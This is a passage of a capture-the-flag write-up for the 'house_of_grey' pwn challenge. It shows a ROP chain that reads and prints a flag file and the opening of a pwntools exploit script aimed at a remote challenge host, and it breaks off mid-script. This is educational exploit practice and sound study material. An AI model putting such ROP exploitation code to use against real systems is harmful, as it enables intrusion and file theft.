 ```python

	# read flag to buffer, fd is 6
	p += p64(pop_rdi_ret) + p64(6)
	p += p64(pop_rsi_r15_ret) + p64(ret + 15 * 8) + p64(0) + p64(read_plt)

	# puts flag
	p += p64(pop_rdi_ret) + p64(ret + 15 * 8) + p64(puts_plt)
	# ./flag str will be replace flag{***}
	#p = p64(pop_rdi_ret) + p64()
	p += './flag\x00'
	#db()
	
	giv(p)
```



## exp

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

# Author: I0gan
# Team  : D0g3

from pwn import *
#from LibcSearcher import LibcSearcher

#context.log_level='debug'
#context.terminal = ['konsole', '-x', 'bash', 'c']
#context.terminal = 'konsole'
#context(arch = 'i386', os = 'linux', log_level='debug')
context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile  = "house_of_grey"
libFile  = ""

remoteIp = "111.198.29.45"
remotePort = 44908

LOCAL = 0
LIB   = 0

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
s   =  lambda x :  io.send(x)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
pd32  = lambda x : p32(x).decode() #python3 not surport str + bytes
pd64  = lambda x : p64(x).decode()
li    = lambda x : log.info(x)
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def fid(text):
	sla('5.Exit\n', '1')
	sla('?', text)

```